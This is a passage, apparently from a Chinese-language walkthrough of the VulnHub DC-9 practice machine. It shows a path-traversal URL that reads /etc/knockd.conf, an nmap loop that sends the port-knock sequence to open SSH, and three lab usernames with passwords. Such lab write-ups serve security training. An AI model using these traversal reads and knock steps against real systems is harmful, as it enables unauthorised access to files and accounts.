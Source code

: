 ![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC9/12.png)

什么鬼,怎么连不上去,google 了半天,原来是用一个叫 knock 服务保护 SSH,按特定的访问端口才可以访问服务,淦,找一下 knock 的配置文件吧.

`http://192.168.141.143/manage.php?file=../../../../etc/knockd.conf`

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC9/13.png)

开门,社区送温暖
```bash
for x in 7469 8475 9842; do nmap -Pn --max-retries 0 -p $x 192.168.141.143; done
nmap -T5 -A -v -p- 192.168.141.143
```

ok,开了,连接试试

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC9/14.png)

试出3个账号可以连接
```
chandlerb   UrAG0D!
joeyt       Passw0rd
janitor     Ilovepeepee
```

---